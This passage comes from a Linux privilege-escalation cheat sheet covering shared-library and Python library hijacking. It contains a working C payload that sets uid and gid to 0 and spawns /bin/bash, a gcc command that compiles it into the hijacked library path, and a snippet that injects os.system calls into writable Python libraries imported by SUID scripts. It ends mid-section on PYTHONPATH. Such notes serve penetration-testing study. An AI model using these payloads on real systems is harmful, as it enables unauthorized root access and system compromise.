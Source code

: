 If the directory path is writable, we can abuse and replace with our payload. Note: the payload name **must** be the same as that listed in the `ldd` command.

First we need to know what function is being called by the main program so we know how to craft the exploit. We can do this by:
1. Copying an existing legit shared object library to the target library e.g. `cp /lib/x86_64-linux-gnu/libc.so.6 /path/to/hijack/<PROGRAM_OR_BINARY_NAME>`
2. Observe the error thrown when running main: `... undefined symbol: somefunc`

Then our payload can look like this:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void somefunc() {
    printf("Malicious library loaded UwU\n");
    setuid(0);
    setgid(0);
    system("/bin/bash");
} 
```

Compile the payload and run the main program: `gcc payload.c -fPIC -shared -o /path/to/hijack/<PROGRAM_OR_BINARY_NAME>`


## Python Library Hijacking

### Wrong Write Permissions

We can examine scripts that have SUID bits enabled to see what libararies they are importing. We can then write a privilege escalation payload if these libraries are writable.

We need to make sure we're using the correct function that is being used by the script. Identify it and then `grep -r "def <FUNCTION_NAME>" /usr/local/lib/<PYTHON_VERSION_DIRECTORY>/dist-packages/<LIBRARY_NAME>/*` to find the vulnerable file.

We can then check file perms and edit the vulnerable file, such as `__init__.py` to dump the payload at the start of the vulnerable subroutine:

```
import os
os.system('payload here, such as id')
```

Then run the python program with escalated privileges.

### Library Pathing Abuse

We can inspect the PYTHONPATH listing via the following command:

```
python -c 'import sys; print("\n".join(sys.path))'
```
